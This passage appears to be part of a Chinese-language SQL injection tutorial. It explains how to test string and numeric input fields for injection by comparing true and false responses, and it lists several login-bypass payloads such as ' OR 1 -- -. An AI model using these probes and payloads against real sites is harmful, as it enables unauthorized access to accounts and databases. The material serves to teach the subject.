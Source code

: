 ## 找什么？

> `Valid Query + No error messages`真=
> 假= `Invalid Query + Error messages`
> 
> 1.如果输入字段是:**字符串**
> 其中 Query = `SELECT * FROM Table WHERE id = ‘1’;`
> 如果，
> `‘` 给出假，则 `‘ ‘` 必须给出真
> `“` 给出假，则 `“ “`必须给出真
> `\` 给出假，则`\\`必须给出真
> 
> 2.如果输入字段为:**数值**
> 其中查询= `SELECT * FROM Table WHERE id = 1;`
> 
> `AND 1`真
> `AND 0`假
> 真
> `AND false`假
> `1-false`易受攻击返回 1
> `1-true`易受攻击返回 0
> `1*50` 易受攻击返回 50
> `1*50`不易受攻击返回 1
> 
> 3.如果输入字段为:**登录**
> 其中查询= `SELECT * FROM Table WHERE username = ‘’;`
> 
> `‘ OR ‘1
> ‘ OR 1 — -
> “ OR “” = “
> “ OR 1 = 1 — -
> ‘=’
> ‘LIKE’
> ‘=0 — +`

3.现在我们已经得到了易受攻击的输入字段。检查错误消息。这里有一张**完整错误信息**的快照。

注意站点 URL 中多余的`’`，它破坏了查询。

![](img/caa92269a827540e09518208c55a9572.png)
